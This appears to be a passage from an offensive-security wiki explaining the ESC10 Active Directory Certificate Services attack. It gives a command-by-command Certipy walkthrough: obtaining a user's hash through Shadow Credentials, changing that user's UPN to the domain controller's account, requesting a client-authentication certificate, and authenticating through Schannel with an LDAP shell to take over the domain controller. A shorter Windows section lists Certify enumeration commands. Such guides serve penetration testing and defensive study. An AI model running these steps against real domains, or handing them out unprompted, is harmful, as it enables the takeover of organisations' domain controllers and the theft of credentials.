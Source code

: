 > [!WARNING]
> At the time of writting (06/08/2022), there is no solution as a low privileged user to read the `CertificateMappingMethods` value. It is worth to try the attack hopping the key is misconfigured.

::: tabs

=== UNIX-like

From UNIX-like systems, [Certipy](https://github.com/ly4k/Certipy) (Python) can be used to enumerate for, and conduct, the ESC10 scenario. 

In this scenario, user1 has `GenericWrite` against user2 and want to compromise the domain controller DC$@domain.local.

First, the user2's hash is needed. It can be retrieved via a [Shadow Credentials](../kerberos/shadow-credentials.md) attack, for example.

```bash
certipy shadow auto -username "user1@$DOMAIN" -p "$PASSWORD" -account user2
```

Then, the `userPrincipalName` of user2 is changed to DC$@domain.local.

```bash
certipy account update -username "user1@$DOMAIN" -p "$PASSWORD" -user user2 -upn "DC\$@$DOMAIN"
```

A certificate permitting client authentication can be requested as user2.

```bash
certipy req -username "user2@$DOMAIN" -hash "$NT_HASH" -ca 'ca_name' -template 'User'
```

The user2's UPN is changed back to something else.

```bash
certipy account update -username "user1@$DOMAIN" -p "$PASSWORD" -user user2 -upn "user2@$DOMAIN"
```

Now, authentication with the obtained certificate will be performed through Schannel. The `-ldap-shell` option can be used to execute some LDAP requests and, for example, realised an [RBCD](../kerberos/delegations/rbcd.md) to fully compromised the domain controller.

```bash
certipy auth -pfx dc.pfx -dc-ip "$DC_IP" -ldap-shell
```

> [!TIP]
> By default, Certipy uses LDAPS, which is not always supported by the domain controllers. The `-scheme` flag can be used to set whether to use LDAP or LDAPS

=== Windows

From Windows systems, the [Certify](https://github.com/GhostPack/Certify) (C#) tool can be used.

```powershell
# Find vulnerable/abusable certificate templates using default low-privileged group
Certify.exe find

# Find vulnerable/abusable certificate templates using all groups the current user context is a part of:
Certify.exe find /currentuser
```
